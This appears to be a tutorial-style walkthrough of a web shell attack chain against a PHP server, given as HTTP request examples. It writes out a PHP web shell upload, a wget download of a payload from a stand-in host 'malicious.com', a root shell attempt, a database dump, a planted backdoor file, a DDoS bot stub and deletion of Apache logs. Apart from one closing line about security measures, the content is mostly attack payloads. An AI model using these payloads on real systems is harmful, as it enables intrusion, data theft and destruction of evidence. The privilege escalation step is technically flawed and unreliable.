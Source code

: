 # Introduction to LoL Web Shell Attack Technique
The following outlines a specific attack method in which a file infiltrated via a web request body is converted into a web shell and then used to perform additional malicious activities:

---

### **1. File Upload via Web Request Body**
- The attacker uploads a malicious script to a specific directory on the web server (e.g., `/var/www/html/`) via an HTTP POST request.
- For example, uploading a web shell targeting a PHP-based web server:
```http
POST /upload.php HTTP/1.1
Host: targetsite.com
Content-Type: multipart/form-data; boundary=---WebKitFormBoundary
Content-Length: 1234

---WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="webshell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
---WebKitFormBoundary--
```

- **Result:** The `webshell.php` file is uploaded to the server, enabling remote command execution.

---

### **2. Invoking the Uploaded Web Shell**
- The uploaded web shell is invoked via an HTTP GET request to execute commands.
- Example request:
```http
GET /webshell.php?cmd=ls HTTP/1.1
Host: targetsite.com
```

- **Result:** A list of files in the server directory is returned.

---

### **3. Download and Execute Additional Malware**
- Use the web shell to download and execute malware from a remote URL.
- Example web request:
```http
GET /webshell.php?cmd=wget+http://malicious.com/payload.sh+-O+/tmp/payload.sh HTTP/1.1
Host: targetsite.com
```

- **Result:** The `payload.sh` file is downloaded and executed, installing additional malware on the system.

---

### **4. Privilege Escalation**
- Exploit privilege escalation vulnerabilities on the server through the uploaded web shell.
- Example:
```http
GET /webshell.php?cmd=python+-c+"import+os;os.setuid(0);os.system('/bin/bash')" HTTP/1.1
Host: targetsite.com
```
- **Result:** Root privileges are obtained, giving the attacker full control over the server.

---

### **5. Data Exfiltration**
- Use the web shell to extract database credentials and directly query the database.
- Example:
```http
GET /webshell.php?cmd=mysql+-u+root+-psecret+-e+"SELECT+*+FROM+users;" HTTP/1.1
Host: targetsite.com
```
- **Result:** User information is exfiltrated from the database.

---

### **6. Backdoor Installation**
- The attacker installs a backdoor to maintain persistent access.
- Example:
```http
GET /webshell.php?cmd=echo+'<?php+system($_GET[cmd]);?>'+>+/var/www/html/backdoor.php HTTP/1.1
Host: targetsite.com
```
- **Result:** A new web shell `backdoor.php` is created.

---

### **7. Distributed Denial-of-Service (DDoS) Attack Execution**
- Use the web shell to convert the target server into part of a botnet network.
- Example:
```http
GET /webshell.php?cmd=perl+-e+'use+IO::Socket;...;+send_attack();' HTTP/1.1
Host: targetsite.com
```
- **Result:** The server is used in a DDoS attack.

---

### **8. Log Deletion**
- The attacker deletes traces of their activity.
- Example:
```http
GET /webshell.php?cmd=rm+-rf+/var/log/apache2/* HTTP/1.1
Host: targetsite.com
```
- **Result:** Server logs are deleted, making it difficult to trace the attack.

---

These techniques are carried out by exploiting unprotected file upload functions, improper input validation, and web server vulnerabilities. **Proper security measures** can prevent such attacks.

